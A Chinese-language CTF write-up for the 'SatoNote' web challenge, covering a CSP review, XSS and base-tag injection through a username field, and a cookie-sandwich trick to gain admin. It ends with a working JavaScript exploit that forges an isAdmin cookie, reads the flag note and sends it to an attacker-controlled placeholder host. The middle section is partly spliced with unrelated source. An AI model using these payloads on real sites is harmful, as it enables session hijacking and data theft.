<a id="beamerOverlay"><p id="Beamer" name="escapeHtml"></p></a>
```

# SatoNote(2 solved)

首先就是这个源码竟然有700多行！

## app.py

首先映入眼帘的就是CSP

```
class CSPMiddleware(BaseHTTPMiddleware):
    async def dispatch(self, request: Request, call_next):
        resp = await call_next(request)
        if not request.url.path.startswith("/profile"):
            resp.headers["Content-Security-Policy"] = (
                "default-src'self'; "
                "script-src 'none'; "
                "script-src-elem 'none'; "
                "script-src-attr 'none'; "
                "style-src 'none'; "
                "style-src-elem https://cdnjs.cloudflare.com; "
                "style-src-attr 'none'; "
                "font-src 'none'; "
                "connect-src 'none'; "
                "media-src 'none'; "
                "object-src 'none'; "
                "manifest-src 'none'; "
                "worker-src 'none'; "
                "frame-src 'none'; "
                "child-src 'none'; "
                "prefetch-src 'none'; "
                "base-uri 'none'; "
                "form-action 'self'; "
                "frame-ancestors 'none'; "
                "navigate-to 'self'"
            )
        resp.headers["X-Content-Type-Options"] = "nosniff"
        resp.headers["Referrer-Policy"] = "no-referrer"
        resp.headers["Permissions-Policy"] = "geolocation=()"
        return resp
```

其实可以看到是防的特别严格的，但是这里会有问题：

```
"style-src-elem https://cdnjs.cloudflare.com; "
```

可能我做的话第一眼看见这里我就会觉得是利用这个来进行绕过，因为这里对后面路径并没有限制，我们可以利用这个来引用外部有漏洞的library来getflag  
这里确实是一个点，非预期了bro，然后注意一下，当路由为/profile的时候他的csp是不做限制的，指在请求包中，后面其他地方都是在meta的地方写的。

  
same\_site设置为“lax”，所以只能用安全的请求方式

然后在每个页面都会加上这个meta CSP

```
def render_page(title: str, body_inner: str) -> str:
    return f"""
<!doctype html>
<html>
<head>
  <meta charset="utf-8">
  <title>{title} - Note Atelier</title>
  <meta http-equiv="Content-Security-Policy" content="
    default-src 'self';
    script-src 'none';
    script-src-elem 'none';
    script-src-attr 'none';
    style-src 'none';
    style-src-elem https://cdnjs.cloudflare.com;
    style-src-attr 'none';
    font-src 'none';
    connect-src 'none';
    media-src 'none';
    object-src 'none';
    manifest-src 'none';
    worker-src 'none';
    frame-src 'none';
    child-src 'none';
    prefetch-src 'none';
    base-uri 'none';
    form-action 'self';
    frame-ancestors 'none';
    navigate-to 'self'
  ">
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/tailwindcss/2.2.19/tailwind.min.css">
</head>
<body class="min-h-screen bg-gray-50">
  {body_inner}
</body>
</html>
"""
```

差不多就这些，还有就是每一个地方做请求用的都是路径而不是用的url，类似于

```
    body = f"""
{header_nav_html(request, user)}
<main class="max-w-5xl mx-auto px-6 py-10">
  <section class="max-w-xl mx-auto bg-white p-6 rounded-xl shadow space-y-6">
    <div class="flex items-center gap-4">
      
      <div>
        <h2 class="text-2xl font-semibold">{name}</h2>
        <p class="text-sm font-mono">{user['uuid']}</p>
      </div>
    </div>
    <div class="p-4 border rounded bg-gray-50">
      {profile_text}
    </div>
    <div>
      <h3 class="text-lg font-semibold mb-2">Edit Profile</h3>
      <form method="POST" action="/profile/{user['uuid']}" class="space-y-4">
        <input type="hidden" name="csrf_token" value="{token}">  <!-- ★ 追加 -->
        <div>
          <label for="profile_text" class="block text-sm font-medium mb-1">Profile HTML</label>
          <textarea id="profile_text" name="profile_text" rows="6" class="w-full border rounded-md px-3 py-2">{get_profile_text_for(user['username'])}</textarea>
        </div>
        <div>
          <button type="submit" class="rounded-md px-4 py-2 border">Save</button>
        </div>
      </form>
    </div>
  </section>
</main>
"""
```

所以有没有base的用武之地呢？

## bot.py

这个流程大概就是，创建一个非admin的号，把flag写到一个note里面，然后admin only read，之后跳到你给的链接里面，也就是这个时候，他的cookie并不是admin的，所以这个地方会比较棘手

然后大概看了一下，这个地方都没有admin用户的地方，所以我们要用某种方式让自己的号变成admin才可以得到flag

## Step1 悬空标记

正常的是这样子的，deleteee这里是可控的  
  
那么我们可以这样子

```
name=</title><script>alert(origin)</script><base href=http://URL/> str:
    token = csrf_token(request)
    if user:
        return f"""
<header class="w-full border-b bg-white {order_class}">
  <div class="max-w-5xl mx-auto px-6 py-4 flex items-center justify-between">
    <a href="/" class="text-xl font-bold">Note Atelier</a>
    <nav class="flex items-center gap-4">
      <a href="/notes" class="inline-flex items-center h-8 text-sm underline align-middle">Notes</a>
      <a href="/profile/{user['uuid']}" class="inline-flex items-center gap-2 h-8 align-middle">
        
        <span class="text-sm">Profile</span>
      </a>
      <form method="POST" action="/logout" class="inline">
        <input type="hidden" name="csrf_token" value="{token}">
        <button type="submit" class="inline-flex items-center h-8 text-sm underline align-middle">Logout</button>
      </form>
    </nav>
  </div>
</header>
"""

```

## Step3 cookie sandwich

最后利用cookie sandwich设置cookie

```
// 异步函数：获取flag笔记并发送到目标服务器
async function fetchFlagNoteAndSend({base=location.origin,label='flag',targetBase='https://URL/'}={}) {
  // 设置cookie为isAdmin=true
  document.cookie='=isAdmin=true; path=/';
  // 获取/notes页面，带上cookie
  const listRes=await fetch(new URL('/notes',base),{credentials:'include'});
  // 如果请求失败则抛出异常
  if(!listRes.ok)throw new Error(`/notes fetch failed: ${listRes.status}`);
  // 获取响应文本
  const listHtml=await listRes.text();
  // 创建DOM解析器
  const parser=new DOMParser();
  // 解析HTML为文档对象
  const listDoc=parser.parseFromString(listHtml,'text/html');
  // 查找所有符合/notes/xxxxxx格式的链接
  const candLinks=[...listDoc.querySelectorAll('a[href^="/notes/"]')].filter(a=>/\/notes\/[0-9a-f]{12}$/i.test(a.getAttribute('href')||''));
  // 如果没有找到笔记链接则抛出异常
  if(candLinks.length===0)throw new Error('no note links found');
  // 查找名称为label的链接，否则取第一个
  const linkEl=candLinks.find(a=>a.textContent.trim().toLowerCase()===label.toLowerCase())||candLinks[0];
  // 构造笔记详情页URL
  const noteUrl=new URL(linkEl.getAttribute('href'),base);
  // 获取笔记详情页内容
  const noteRes=await fetch(noteUrl,{credentials:'include'});
  // 如果请求失败则抛出异常
  if(!noteRes.ok)throw new Error(`${noteUrl.pathname} fetch failed: ${noteRes.status}`);
  // 获取响应文本
  const noteHtml=await noteRes.text();
  // 解析HTML为文档对象
  const noteDoc=parser.parseFromString(noteHtml,'text/html');
  // 获取main标签内容
  const main=noteDoc.querySelector('main');
  // 获取main标签的文本内容（如果没有则取body文本），并去除首尾空白
  const text=(main?main.innerText:noteDoc.body?.innerText||'').trim();
  // 对文本内容进行base64编码
  const b64=btoa(unescape(encodeURIComponent(text)));
  // 构造目标服务器的URL，参数为编码后的内容
  const targetUrl=`${targetBase}?omg=${encodeURIComponent(b64)}`;
  // 发送请求到目标服务器（no-cors模式）
  await fetch(targetUrl,{mode:'no-cors'});
  // 返回目标URL
  return targetUrl;
}
// 执行函数并输出结果或错误
fetchFlagNoteAndSend().then(u=>console.log('Sent to:',u)).catch(console.error);

```
